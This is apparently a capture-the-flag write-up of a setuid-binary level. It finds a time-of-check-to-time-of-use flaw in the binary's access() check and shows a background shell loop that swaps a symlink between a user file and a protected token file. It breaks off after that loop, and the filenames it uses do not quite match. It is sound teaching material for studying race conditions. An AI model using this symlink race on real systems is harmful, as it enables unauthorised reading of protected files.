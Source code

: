 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

We have a binary setuid and a token file with no rights for us. 
Let's do some tests

```bash 
$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

The program seems to send a file to an address. 

```bash 
$ ./level10 token coucou
You don't have access to token
```

Okay let's ty with a file that we create

```bash 
$ echo 'salut' > /tmp/salut.txt
$ ./level10 /tmp/salut.txt level10
Connecting to level10:6969 .. Unable to connect to host level10
```

Okay no rights issue if it is our file. Let's look at the program with strings

```bash 
$  strings ./level10 
[...]
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
```



The executable checks if we have the rights to read the file with the access function then tries to send it to a server and display its content but we do not have the necessary rights on the token file.


We learned more about 'access' and discovered the existence of  <a href='https://www.vpnunlimited.com/fr/help/cybersecurity/toctou-attack?srsltid=AfmBOoqehRSAC5_nVvLKZinLmwohL_LoSgNh-VZIJcej7_UG0dA6EeZg'>TOCTOU attacks</a>, wich is pretty well explained in the manual. It is exactly like race conditions in philosphers. 


```bash 
NOTES
Warning:  Using  access()  to  check  if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to  manipulate  it.   For  this reason,  the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

What we want to do is that the access happens on a file where we have the rights and the open on the token. Let's first create the file. 

```bash 
$ echo 'salut' > /tmp/salut
```

Thn we are going to need a 'faketoken' file, which will be a link once to the token to read it and another time a link to '/tmp/salut' to pass the rights check. 

Since all this happens very fast we will have to do it in a infinite loop. 

```bash 
while true; do
    # Création d'un lien symbolique /tmp/faketoken pointant vers /tmp/coucou
    ln -sf /tmp/coucou /tmp/faketoken

    # Création d'un lien symbolique /tmp/faketoken pointant vers $(pwd)/token
    ln -sf $(pwd)/token /tmp/faketoken
done &
```










